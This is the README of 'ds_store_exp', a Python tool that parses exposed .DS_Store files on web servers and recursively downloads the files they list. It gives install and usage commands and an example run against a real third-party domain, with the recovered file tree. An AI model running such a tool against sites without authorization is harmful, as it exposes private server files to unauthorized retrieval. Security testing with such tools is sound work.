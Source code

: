 ### Is derived from the https://github.com/lijiejie/ds_store_exp
# ds\_store\_exp #

A **`.DS_Store`** file disclosure exploit. 

It parses .DS_Store file and downloads files recursively.

这是一个 .DS\_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地。

    Usage: python3 ds_store_exp.py http://www.example.com/.DS_Store

## Install ##

	pip3 install -r requirements.txt

## Example ##

	python3 ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js
	
	21 directories, 48 files
